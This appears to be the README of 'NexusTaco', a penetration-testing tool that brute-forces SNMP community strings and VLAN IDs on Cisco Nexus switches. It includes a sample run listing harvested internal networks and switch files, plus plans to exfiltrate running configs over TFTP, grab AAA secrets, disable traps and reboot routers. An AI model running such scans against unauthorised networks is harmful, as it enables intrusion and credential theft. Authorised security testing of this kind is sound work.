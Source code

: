 NexusTaco is a snmp scanner that can be used both for internal testing and external testing to assess Cisco Nexus switches ( all models). There are many snmp scanners and brute forcers this was made for just completeness.It has the following features:
*Finds Nexus switches specifically since they seem to reply to bogus community strings
*Bruteforces Vlan ID’s which can be used for Vlan hopping / double tagging attacks without a community incase #3 doesn’t come through (useful for internal tests)
*Bruteforces snmp community strings To find the following:
**System uptime
**Configured networks (leverage more ground)
**Files and folders
**VTP secret and password ( can be cracked since its md5 and might be the telnet login password if exists or used somewhere else)
**Once a write community string is found the running configuration file will be send to your set ip in argv[2]. You need to configure a tftp server like solar winds’s one or something.
TODO:
*Still looking up sneaky OID’s that can provide usernames that are configured locally on the switch
*If found private snmp CS check if a AAA server is running (and get the shared secret wether radius or TACACS+)
*Show logged in users
*Disable snmp traps 
*Check for port security if configured incase you need to spoof your mac so you don’t loose your port(internal tests).
*Use getopt …..
*Router reload over snmp just for evilness.
*Anything else I forgot.

$ python NexusTaco.py 
python NexusTaco.py CIDR <your-tftp-server-ip> <number of vlans to bruteforce>
$ python NexusTaco.py x.x.x.x/32 127.0.0.1 100
Thanks nmap for the ip list
Finding vulnerable switches
x.x.x.x:Is a nexus switch, Snmp open, Has Vlans configured

Finding VlanIDs on:  x.x.x.x  With incorrect community string

Host: x.x.x.x has VlanID 1 Configured
Host: x.x.x.x has VlanID 2 Configured
Host: x.x.x.x has VlanID 3 Configured
Host: x.x.x.x has VlanID 4 Configured
Host: x.x.x.x has VlanID 5 Configured
Host: x.x.x.x has VlanID 6 Configured
Host: x.x.x.x has VlanID 7 Configured
Host: x.x.x.x has VlanID 8 Configured
Host: x.x.x.x has VlanID 10 Configured
Host: x.x.x.x has VlanID 31 Configured
Host: x.x.x.x has VlanID 32 Configured
Host: x.x.x.x has VlanID 33 Configured
Host: x.x.x.x has VlanID 34 Configured
Host: x.x.x.x has VlanID 35 Configured
Host: x.x.x.x has VlanID 40 Configured
Host: x.x.x.x has VlanID 64 Configured
Host: x.x.x.x has VlanID 65 Configured
Host: x.x.x.x has VlanID 97 Configured
Host: x.x.x.x has VlanID 98 Configured
Host: x.x.x.x has VlanID 99 Configured
Host: x.x.x.x has VlanID 100 Configured

Bruteforcing for community strings
[public] Found as community string

Getting system uptime
Timeticks: (1430420910) 165 days, 13:23:29.10

Grabbing Configured Networks
10.1.4.1/255.255.255.0
10.1.8.1/255.255.248.0
10.1.16.1/255.255.255.0
10.2.128.1/255.255.192.0
10.3.128.1/255.255.192.0
10.4.0.1/255.255.192.0
10.5.0.1/255.255.192.0
x.x.x.x/255.255.255.240
x.x.x.x/255.255.255.240
x.x.x.x/255.255.255.0
x.x.x.x/255.255.255.240
x.x.x.x/255.255.255.192
172.16.254.18/255.255.255.252
172.19.242.1/255.255.255.0
172.19.248.1/255.255.248.0
172.21.6.1/255.255.255.0
172.30.0.1/255.255.252.0
x.x.x.x/255.255.254.0
192.168.30.230/255.255.255.240
192.168.101.1/255.255.255.252
192.168.101.5/255.255.255.252
192.168.101.14/255.255.255.252
192.168.101.18/255.255.255.252
192.168.101.21/255.255.255.252

Grabbing files and folders
lost+found
n5000-uk9-kickstart.5.0.3.N2.1.bin
n5000-uk9.5.0.3.N2.1.bin
mts.log
vdc_2
vdc_3
vdc_4
LAN_BASE_SERVICES_PKG.lic
n5000-uk9-kickstart.6.0.2.N2.3.bin
n5000-uk9.6.0.2.N2.3.bin
assoc_ascii_cnv.log
virt_strg_pool_bf
icmpv6.6.3538.log
icmpv6.14.3538.log

VTP secret=  ""
VTP auth password=  ""

Read community string found, cannot copy configuration to tftp. Try a better wordlist.
